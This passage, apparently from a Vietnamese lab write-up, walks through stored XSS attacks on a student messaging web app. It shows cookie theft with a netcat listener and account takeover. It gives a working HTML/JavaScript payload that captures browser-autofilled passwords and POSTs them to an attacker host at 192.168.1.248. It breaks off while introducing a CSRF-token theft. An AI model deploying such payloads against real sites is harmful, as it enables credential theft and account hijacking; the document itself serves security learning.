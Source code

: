 ​    Đồng thời ở host bên kia (có địa chỉ ip là 192.168.1.248), bật netcat để listen: 

![image](https://user-images.githubusercontent.com/61876488/119176368-39f23480-ba95-11eb-9b12-8b84e1a71173.png)

   Xong xuôi ta bấm **send** để gửi cho student có username **pique**.

- Thử đăng nhập vào user **pique** rồi bấm **View message** để xem tin nhắn của user **messi**:

  ![image](https://user-images.githubusercontent.com/61876488/119177372-6f4b5200-ba96-11eb-9149-03c3504ef5e2.png)

- Ngay lập tức từ host 192.168.1.248 ta nhận được request:

  ![image](https://user-images.githubusercontent.com/61876488/119185616-1cc36300-baa1-11eb-8988-e442a50bd368.png)

- Như vậy chúng ta đã lấy được toàn bộ cookie, test thử cookie vừa mới lấy được bằng cách thử đăng nhập vào user **messi** sau đó thay value bằng cookie login của user **pique**. Kết quả là đăng nhập thành công và chiếm mọi quyền của user **pique**.


**b)  Lấy mật khẩu nhờ tính năng tự động điền (không cần người dùng tương tác):**

- Cách khai thác và endpoint tương tự như khi khai thác chiếm cookie ở trên. Giả sử user **pique** bật tính năng tự động điền thông tin tài khoản trên browser:

  ![image](https://user-images.githubusercontent.com/61876488/119221323-ffca7680-bb18-11eb-8845-72e7d9fbc084.png)

- Khi đó user **messi** có thể vào chức năng nhắn tin và gửi cho user **pique** nội dung như sau:

  ```html
  <form>
   <input type="text" name="user">
   <input type="password" name="pass" onchange="xss(this.value)">
  </form>
  <script>
  function xss(val){
      if(val.length){
          // send request to host 192.168.1.248 which is listened by netcat
          fetch("http://192.168.1.248", {method:"POST",mode: "no-cors",body: document.getElementsByName("user")[0].value+" : "+val})
      } 
  }
  </script>
  ```

- Khi user **pique** vào xem tin nhắn thì malicious script sẽ được thực thi, cho kết quả như sau:

  ![image](https://user-images.githubusercontent.com/61876488/119221512-f988ca00-bb19-11eb-8dc0-15bfaaf2b73d.png)

**c) Bypass CSRF thông qua XSS:**

- Khi student hay teacher truy cập vào chức năng update thông tin sinh viên thì một CSRF token sẽ được sinh ra và đặt trong hidden input:

  ![image](https://user-images.githubusercontent.com/61876488/119271521-25947000-bc2c-11eb-855f-a3cb007e1239.png)

- Chúng ta có thể hoàn toàn chiếm được token này bằng cách gửi payload này cho student khác thông qua chức năng nhắn tin:

